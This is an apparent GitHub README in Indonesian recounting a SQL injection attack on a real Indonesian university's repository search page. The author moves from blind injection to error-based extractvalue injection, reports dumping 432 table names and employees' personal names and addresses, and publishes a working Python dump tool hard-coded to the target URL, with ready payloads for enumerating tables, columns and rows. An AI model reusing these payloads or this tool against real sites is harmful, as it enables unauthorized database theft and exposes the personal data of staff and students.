







# How I hack UNDIKNAS


Dapat dilihat bahwa web repository ini meminta sebuah inputan berupa kata kunci.
Langsung saja saya coba untuk input " **'** " untuk membuat query sql error.
Tak terduga bahwa query error benar-benar muncul, berikut merupakan detail tampilannya.<br>

Dari query tersebut saya berharap bisa melakukan select terhadap nama database dengan menggunakan **union select injection**.
Namun saat saya melakukan union select pada query tersebut sepertinya jumlah kolom tabel yang di select sangat banyak sehingga
saya harus melakukan brute jumlah kolom yang di select agar sqli dengan **union select** dapat menampilkan data. Namun sayang sekali meskipun saya sudah melakukan brute force sebanyak 60++ kolom, saya masih belum mendapatkan jumlah kolom yang pas :D.<br>
Melihat bahwa tidak memungkinkan melakukan union select, saya pun mencari cari cara lain. Sedikit recon dengan blind sql injection, saya memutuskan untuk melakukan brute force terhadap nama database dengan melakukan compare pada setiap kemungkinan char dengan fungsi **substring** yang terdapat di mysql.<br>
query yang saya gunakan adalah  `19' or BINARY substring(database(), 1, 1) = kemungkinan_char`.<br>
Setelah beberapa lama script brute force saya jalankan, saya akhirnya menemukan nama database nya. Namun perjalanan masih jauh, saya masih memerlukan nama tabel dari databasenya untuk melakukan leak data. Namun untuk melakukan brute force ini membutuhkan waktu yang sangat lama jika tabel yang ada di dalam database tersebut sangat banyak.<br>
Lagi-lagi saya harus mencari cara lain untuk melakukan leak data. Sedikit recon lagi, saya akhirnya menemukan cara untuk leak data dengan menggunakan **Error based SQL injection**. Saatnya saya coba untuk leak data lagi dengan query berikut <br>
`19' and extractvalue(0x0a,concat(0x0a,(select database() limit 3,1)))-- `.
Berikut merupakan hasil yang diberikan. <br>
 <br>
Nah yang saya sensor secara pixelated itu adalah nama database-nya. Karena nama database sudah ditemukan dengan **error based sql injection**, artinya saya bisa melakukan leak data terhadap seluruh tabel yang ada di dalam database ^0^. Untuk melakukan leak data terhadap seluruh tabel di database undiknas, saya menggunakan script untuk melakukan leak tabel dengan total sebanyak 432 tabel. Berikut merupakan sebagian tabel dari total 432 tabel <br>
<br>
Karena nama tabel sudah ditemukan, artinya saya bisa melakukan leak kolom dalam tabel juga. Saya menemukan beberapa tabel yang menarik untuk saya leak namun yang akan saya tunjukkan di sini hanyalah tabel pegawai. Berikut merupakan isinya.
<br>
Sangat menarik karena saya bisa melihat isi dari data-data pribadi para pegawai. Karena kolom sudah saya temukan, sekarang saya bisa melihat isi dari data-data pegawai tersebut. Namun karena error based sql injection tidak dapat melakukan select sebanyak lebih dari 1 kolom dan panjang string yang dioutput oleh XPATH pun tidak lebih dari 32 byte, saya harus melakukan select 1 per 1 dengan menggunakan `LIMIT`. Berikut merupakan hasil leak nama pegawai.
<br>
Dan berikut merupakan hasil leak dari alamat para pegawai :D.
<br>
Dari query sql error yang dioutput oleh web, saya juga bisa melakukan **insert, update, delete** dan bahkan **drop** pada database undiknas. Bug ini sudah saya laporkan ke pihak undiknas dan web repository sudah down.<br>

# Script sudah tidak bisa digunakan karena web target sudah down

Berikut merupakan script untuk melakukan dump. <br>
sploithelper.py<br>
```
import requests

def attack(conn, query):
    payload = query
    data = {
        "pilih_kategory": "buku",
        "cari_data": payload
    }
    exploit = conn.post(url="http://repository.undiknas.ac.id/repository/search", data=data)
    return exploit
```

dumper.py
```
import requests
from sploithelper import attack
from bs4 import BeautifulSoup

class Dump():
    def __init__(self, url):
            self.url = url

    def dumpTable(self, save_file="outputtable.txt"):
        with requests.Session() as conn:
            file = open(save_file, "w+")
            try:
                for i in range(433):
                    query = "19' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema='undiknas_dc'LIMIT {},1)))-- ".format(i)
                    
                    table_leak = attack(conn, query)
                    soup = BeautifulSoup(table_leak.text, 'html.parser')
                    table_name = soup.findAll('p')[1]

                    table_name = str(table_name)[25:-5]
                    print "Dumped table name : " + table_name
                    file.write(table_name + '\r\n')
                
                file.close()
            except KeyboardInterrupt:
                print 'Connection cut'

    def dumpData(self, columns=10, table='mahasiswa', column_name='nama', order='', save_file="outputdata.txt"):
        with requests.Session() as conn:
            file = open(save_file, "w+")
            try:
                for i in range(columns):
                    if order == '':
                        query = "19' and extractvalue(0x0a,concat(0x0a," \
                                + "(select {} from {} limit {},1)))-- ".format(column_name, table, i)
                    else:
                        query = "19' and extractvalue(0x0a,concat(0x0a," \
                                + "(select {} from {} ORDER BY {} ASC limit {},1)))-- ".format(column_name, table, order, i)

                    # print query
                    data_leak = attack(conn, query)
                    # print data_leak.text
                    soup = BeautifulSoup(data_leak.text, 'html.parser')
                    leaked_data = str(soup.findAll('p')[1])[25:-5]
                    print leaked_data
                    file.write(leaked_data + '\r\n')
                
                file.close()

            except KeyboardInterrupt:
                print 'Connection cut'

    def dumpColumns(self, table='mahasiswa', columns=10, save_file="outputcol.txt"):
        with requests.Session() as conn:
            file = open(save_file, "w+")
            try:
                for i in range(columns):
                    query = "19'and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns " \
                            + "where table_schema=database() and table_name='{}' limit {},1)))-- ".format(table, i)

                    column_leak = attack(conn, query)
                    soup = BeautifulSoup(column_leak.text, 'html.parser')
                    column_name = str(soup.findAll('p')[1])[25:-5]                
                    print column_name
                    file.write(column_name + "\r\n")
                
                file.close()
            
            except KeyboardInterrupt:
                print 'Connection cut'
```

main.py
```
from dumper import Dump
import argparse

def parse_argument():
    parser = argparse.ArgumentParser()
    parser.add_argument("-all", \
                        action='store_true', \
                        help="Dump all the tables")
    parser.add_argument("-tbl", \
                        help="TABLE_NAME to dump the columns, default table is 'mahasiswa'")
    parser.add_argument("-col", \
                        help="Number of columns you want to dump")
    parser.add_argument("--data", \
                        help="Dump data from specific column of a table")
    parser.add_argument("--order", \
                        help="Order by specific column")
    parser.add_argument("--outfile", \
                        help="OUTPUT file for the dumped things")

    return parser.parse_args()

def main():
    args = parse_argument()
    url = "http://repository.undiknas.ac.id/repository/search"
    data = Dump(url)
    if args.all:
        data.dumpTable()
    if args.tbl and args.col and args.data:
        if args.order:
            if args.outfile:
                return data.dumpData(table=args.tbl,columns=int(args.col), save_file=args.outfile, column_name=args.data, order=args.order)
            else:
                return data.dumpData(table=args.tbl, columns=int(args.col), column_name=args.data, order=args.order)
        else:
            if args.outfile:
                return data.dumpData(table=args.tbl, columns=int(args.col), save_file=args.outfile, column_name=args.data)
            else:
                return data.dumpData(table=args.tbl, columns=int(args.col), column_name=args.data)
    elif args.tbl and args.col:
        if args.outfile:
            return data.dumpColumns(table=args.tbl, save_file=args.outfile, columns=args.col)
        else:
            return data.dumpColumns(table=args.tbl, columns=int(args.col))
    elif args.tbl:
        if args.outfile:
            return data.dumpColumns(table=args.tbl,save_file=args.outfile)
        else:
            print "Output in the default file: outputcol.txt"
            return data.dumpColumns(table=args.tbl)
    else:
        return print "Please fill the data"

if __name__ == "__main__":
    main()
```